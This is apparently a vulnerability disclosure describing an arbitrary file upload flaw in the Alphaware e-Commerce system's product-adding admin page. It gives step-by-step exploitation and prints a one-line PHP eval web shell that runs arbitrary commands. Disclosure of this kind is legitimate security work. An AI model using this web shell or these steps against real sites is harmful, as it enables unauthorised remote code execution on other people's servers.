





## Arbitrary file upload exists in Alphaware e-Commerce system

### Any file upload

Enter the background management page

admin_feature.php  add a product



You need to add files here, you can upload any file

Upload a malicious php file

```
<?php @eval($_REQUEST[c]);?>
```




The file is uploaded successfully, check the product image to find the php file path



Access the php file and execute the phpinfo command



### Vulnerable code



Upload the file directly without any filtering


### The system download link

https://www.sourcecodester.com/php/11676/alphaware-simple-e-commerce-system.html